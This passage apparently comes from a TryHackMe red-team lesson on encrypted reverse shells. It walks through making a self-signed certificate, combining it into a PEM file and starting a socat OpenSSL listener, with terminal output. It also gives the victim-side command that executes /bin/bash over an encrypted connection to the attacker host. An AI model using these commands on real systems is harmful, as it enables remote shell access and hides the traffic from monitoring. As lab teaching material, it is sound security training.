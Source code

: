 The above command returns:

    Private key: thm-reverse.key
    Certificate: thm-reverse.crt

The Privacy Enhanced Mail (PEM) .pem file requires the concatenation of the private key .key and the certificate .crt files. We can use cat to create our PEM file from the two files that we have just created:

cat thm-reverse.key thm-reverse.crt > thm-reverse.pem.

Secondly, with the PEM file ready, we can start listening while using the key for encrypting the communication with the client.

socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

If you are not familiar with socat, the options that we used are:

    -d -d provides some debugging data (fatal, error, warning, and notice messages)
    OPENSSL-LISTEN:PORT_NUM indicates that the connection will be encrypted using OPENSSL
    cert=PEM_FILE provides the PEM file (certificate and private key) to establish the encrypted connection
    verify=0 disables checking peer’s certificate
    fork creates a sub-process to handle each new connection.

Thirdly, on the victim system, socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash. Note that the EXEC invokes the specified program.

Let’s demonstrate this. On the attacker system, we carried out the following:

```

Pentester Terminal

           
pentester@TryHackMe$ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
Generating a RSA private key
........................++++
......++++
writing new private key to 'thm-reverse.key'
-----
pentester@TryHackMe$ ls
thm-reverse.crt  thm-reverse.key
pentester@TryHackMe$ cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
2022/02/24 13:39:07 socat[1208] W ioctl(6, IOCTL_VM_SOCKETS_GET_LOCAL_CID, ...): Inappropriate ioctl for device
2022/02/24 13:39:07 socat[1208] N listening on AF=2 0.0.0.0:4443

        


```

As we have a listener on the attacker system, we switched to the victim machine, and we executed the following:
